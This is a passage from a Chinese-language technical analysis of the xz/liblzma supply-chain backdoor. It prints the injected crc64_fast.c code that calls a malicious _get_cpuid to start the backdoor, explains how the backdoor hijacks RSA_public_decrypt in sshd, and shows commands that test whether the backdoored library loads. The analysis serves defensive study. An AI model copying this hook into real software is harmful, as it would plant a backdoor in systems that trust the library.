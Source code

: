 此步骤会从good-large_compressed.lzma文件中提取出预构建的恶意liblzma_la-crc64-fast.o目标文件，并对/src/liblzma/check/目录下crc64_fast.c和crc32_fast.c中的内容进行修改，修改的内容如下所示。  
```
// crc64_fast.c的修改内容，crc32_fast.c与此相似。
#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_X86_CLMUL) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))
extern int _get_cpuid(int, void*, void*, void*, void*, void*);
static inline bool _is_arch_extension_supported(void) { 
    int success = 1; 
    uint32_t r[4]; 
    success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); 
    const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); 
    return success && (r[2] & ecx_mask) == ecx_mask; 
}
#else
#define _is_arch_extension_supported is_arch_extension_supported
#endif

static crc64_func_type crc64_resolve(void) {
    return _is_arch_extension_supported()
            ? &crc64_arch_optimized : &crc64_generic;
}
```  
  
此修改将crc64_resolve()和crc32_resolve()函数中调用的is_arch_extension_supported()函数替换为_is_arch_extension_supported()函数，并在_is_arch_extension_supported()函数中调用了恶意liblzma_la-crc64-fast.o目标文件中定义的_get_cpuid()函数（一个下划线），而原有的is_arch_extension_supported()函数会调用由gcc实现的__get_cpuid()函数（两个下划线）。_get_cpuid()函数就是对后门进行初始化的入口函数，在此过程中，会修改sshd进程的RSA_public_decrypt()函数的GOT表条目。  
  
02  
  
后门代码工作原理  
  
上游的OpenSSH不依赖liblzma库，但是debian和其他几个Linux发行版对上游的OpenSSH进行了修改，引入了libsystemd库，使其支持systemd通知。libsystemd库依赖于liblzma库，所以，sshd进程也间接依赖于liblzma库。可通过如下命令，查看当前系统中的sshd进程是否依赖于liblzma库。  
```
❯ ldd /usr/sbin/sshd | grep "liblzma"
  liblzma.so.5 => /lib/x86_64-linux-gnu/liblzma.so.5 (0x00007ff5218fc000)
❯ ll /lib/x86_64-linux-gnu/ | grep "liblzma"
-rw-r--r--  1 root root 275K 4月   8  2022 liblzma.a
lrwxrwxrwx  1 root root   47 4月   2 16:10 liblzma.so -> /usr/software/xz-5.6.0-0.2/lib/liblzma.so.5.6.0
lrwxrwxrwx  1 root root   47 4月   3 15:24 liblzma.so.5 -> /usr/software/xz-5.6.0-0.2/lib/liblzma.so.5.6.0
-rw-r--r--  1 root root 159K 4月   8  2022 liblzma.so.5.2.4
```  
  
当存在后门的liblzma.so库编译成功后，可以通过如下命令测试后门代码是否成功加载。  
```
❯ time env -i LC_LANG=C LD_PRELOAD=/usr/software/xz-5.6.0-0.2/lib/liblzma.so.5.6.0 /usr/sbin/sshd -h
option requires an argument -- h
OpenSSH_8.2p1 Ubuntu-4ubuntu0.11, OpenSSL 1.1.1f  31 Mar 2020
usage: sshd [-46DdeiqTt] [-C connection_spec] [-c host_cert_file]
            [-E log_file] [-f config_file] [-g login_grace_time]
            [-h host_key_file] [-o option] [-p port] [-u len]
env -i LC_LANG=C LD_PRELOAD=/usr/software/xz-5.6.0-0.2/lib/liblzma.so.5.6.0    0.19s user 0.02s system 90% cpu 0.227 total

❯ time env -i LC_LANG=C TERM=foo LD_PRELOAD=/usr/software/xz-5.6.0-0.2/lib/liblzma.so.5.6.0 /usr/sbin/sshd -h
option requires an argument -- h
OpenSSH_8.2p1 Ubuntu-4ubuntu0.11, OpenSSL 1.1.1f  31 Mar 2020
usage: sshd [-46DdeiqTt] [-C connection_spec] [-c host_cert_file]
            [-E log_file] [-f config_file] [-g login_grace_time]
            [-h host_key_file] [-o option] [-p port] [-u len]
env -i LC_LANG=C TERM=foo  /usr/sbin/sshd -h  0.00s user 0.00s system 91% cpu 0.004 total
```